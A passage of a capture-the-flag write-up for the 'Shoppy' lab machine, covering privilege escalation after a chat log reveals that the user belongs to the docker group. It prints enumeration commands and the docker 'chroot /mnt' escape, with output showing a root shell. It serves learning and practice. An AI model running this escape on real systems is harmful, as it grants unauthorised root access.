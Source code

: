 
We still are not the root user yet, so let’s enumerate the box for more attack vector

`sudo -l` did not work for deploy. Another command for me is to look for SUID or sticky bit

with the following `find / -perm -u=s -type f 2>/dev/null`

Unfortunately, nothing came up with these comments. In that case we went back to the enumeration again before uploading any other tool

while reading the notes we found this information disclosure on the chat between jaeger and josh

![Untitled](/Assets/Pictures/Shoppy/Untitled%2010.png)

we can verify this statement with the id command to see the groups the user belong to

```bash
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

So we know now that the deploy user on shoppy has been created using docker. According to [GTFObins](https://gtfobins.github.io/gtfobins/docker/#sudo) we can exploit docker for privilege escaltion.

According to the doc, running `sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh` should give us a root shell

Let’s try, at first it did not work…we need to adjust the command to our type of shell so instead of running it with as root we will need to run it without being root, since deploy is not in the sudoers file

```bash
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id;whoami
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
root
```

With this we can get the root flag, and voila ! we are done

Happy Hacking !